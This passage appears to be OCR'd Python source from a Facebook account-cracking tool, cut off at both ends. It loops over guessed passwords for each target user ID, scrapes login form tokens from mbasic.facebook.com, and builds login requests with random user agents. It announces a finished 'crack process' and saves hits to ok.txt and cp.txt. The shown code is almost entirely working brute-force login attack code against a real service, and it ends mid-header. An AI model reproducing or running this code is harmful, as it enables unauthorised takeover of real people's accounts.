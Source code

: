 			yaari.submit(c,uid,pwx,tl)

	print(50*'_')

	print(' [💉] 𝐂𝐫𝐚𝐜𝐤 𝐩𝐫𝐨𝐜𝐞𝐬𝐬 𝐡𝐚𝐬 𝐛𝐞𝐞𝐧 𝐜𝐨𝐦𝐩𝐥𝐞𝐭𝐞𝐝')

	print(' [💉] 𝐈𝐝𝐬 𝐬𝐚𝐯𝐞𝐝 𝐢𝐧 𝐨𝐤.𝐭𝐱𝐭,𝐜𝐩.𝐭𝐱𝐭')

	print(50*'_')

	exit()

def a(uid,pwx,tl):

    global loop

    global cps    

    global oks

    global agents

    try:

        for ps in pwx:

            session = requests.Session()

            sys.stdout.write(f'\r \033[1;90m[\033[1;93m S4MI \033[1;90m] \033[1;96m%s/%s\033[1;90m \033[1;90m[\033[1;92mOK:%s\033[1;90m] '%(loop,tl,len(oks))),

            sys.stdout.flush()

            pro = random.choice(ugen)

            #oo=random.choice(sss)

            free_fb = session.get('https://mbasic.facebook.com').text

            log_data = {

                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),

            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),

            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),

            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),

            "try_number":"0",

            "unrecognized_tries":"0",

            "email":uid,

            "pass":ps,

            "login":"Log In"}

            header_freefb = {"authority": 'free.facebook.com',

            "method": 'GET',

            "scheme": 'https',
